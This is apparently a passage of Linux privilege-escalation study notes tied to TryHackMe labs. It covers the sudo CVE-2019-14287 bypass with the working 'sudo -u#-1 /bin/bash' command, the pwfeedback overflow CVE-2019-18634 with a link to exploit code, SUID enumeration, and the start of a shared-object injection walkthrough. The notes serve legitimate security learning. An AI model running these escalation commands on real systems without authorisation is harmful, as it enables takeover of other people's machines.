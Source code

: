 ##### CVE-2019-14287
 - Another thing to watch out for when running `sudo -l`
```text
User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
```

 - Specifically the `!root` part. This is vulnerable to the following attack:
```bash
sudo -u#-1 /bin/bash
```

 - This works because if you want to run a command as another user you can use:
```bash
sudo -u#UID COMMAND
```
 - When the UID is -1, it is handled incorrectly as 0, which is of course the UID of the root account.

 - More info at [Exploit DB => CVE-2019-14287](https://www.exploit-db.com/exploits/47502).


##### CVE-2019-18634
 - When you type in your password on Linux, normally you see nothing. However, if you see something like an asterisk for each char, then this means the `pwfeedback` is set.
 
 - If Sudo version is below 1.8.26, and `pwfeedback` is enabled, then root privilege can be gained via buffer overflow.

 - Check sudo version with:
```bash
sudo -V
```

 - Exploit code can be found [here](https://github.com/saleemrashid/sudo-cve-2019-18634).

### SUID Escalation
 - Check for files that have SUID bit set:
```bash
find / -perm -u=s -type f 2>/dev/null
```
 - Search for the files that are found on [GTFOBins](https://gtfobins.github.io).


##### Shared Object Injection
 - Look for files that have the SUID bit set.
 - We then use `strace` to see what the program is doing:
```bash
strace /usr/local/bin/suid-so 2>&1
```
 - There is too much be printed, so let's search for some specfic strings:
```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

 - From the output we can see that the program tried to open a bunch of files that don't exists:
```text
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
```